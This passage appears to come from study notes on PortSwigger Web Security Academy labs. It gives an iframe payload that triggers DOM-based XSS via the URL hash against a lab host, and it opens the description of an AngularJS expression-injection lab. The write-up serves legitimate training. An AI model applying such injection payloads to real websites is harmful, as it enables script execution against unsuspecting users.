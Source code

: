 ![picture 11](/assets/images/125bf14d7c2c51f6aa92eb286d05e220e78e650d23c8cb80b18902691f13d0d2.png)  

Payload for victim used:

```html
<iframe src="https://0a3d008603576fcdc0b49fdd006900b5.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This fired a `print()`.



I highly recommend checking this video: https://www.youtube.com/watch?v=JgiX3kyK8ME

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
> This lab contains a DOM-based cross-site scripting vulnerability in a AngularJS expression within the search functionality.
> 
> AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.
> 